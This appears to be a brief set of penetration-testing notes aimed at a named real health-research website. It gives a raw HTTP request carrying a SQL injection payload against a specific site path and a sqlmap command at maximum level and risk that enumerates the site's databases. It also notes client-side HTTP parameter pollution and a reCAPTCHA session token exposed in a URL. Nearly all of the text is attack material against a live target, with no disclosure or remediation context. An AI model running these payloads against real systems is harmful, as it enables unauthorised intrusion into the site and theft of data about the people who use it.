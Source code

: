 ___

# signalpath

Find urls

# projectbaseline

## SQL Injection 

```
GET /shape-healthtech/?189304164'%20or%204312%3d4317--%20=1 HTTP/2
Host: www.projectbaseline.com
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

```bash
sqlmap -r request.txt --dbs --level 5 --risk 3 
```

## Client-side HTTP parameter pollution

```
POST /studies/rheumatoid-arthritis-galvani/contact/
```

### Session token in url 

```
GET /content/verily/us/en/studies/rheumatoid-arthritis-galvani/contact/jcr:content.recaptcha.json?token=03AFcWeA7zmp4
...
```

